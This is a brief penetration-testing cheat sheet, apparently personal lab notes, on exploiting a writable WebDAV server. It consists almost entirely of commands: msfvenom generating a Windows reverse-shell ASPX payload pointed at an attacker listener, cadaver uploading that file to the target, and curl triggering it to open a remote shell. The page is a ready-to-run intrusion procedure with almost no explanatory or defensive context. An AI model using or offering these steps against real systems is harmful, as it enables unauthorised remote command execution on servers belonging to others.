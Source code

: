 # WebDav

Create a reverse shell (this is for windows):

{% code overflow="wrap" %}
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.219 LPORT=80 --platform Windows -a x64 -f aspx -o shell.aspx
```
{% endcode %}

Upload shell using WebDAV client (cadaver):

```sh
cadaver http://192.168.219.122

> put shell.aspx
```

trigger shell to get connection:

```
curl http://192.168.219.122/shell.aspx
```
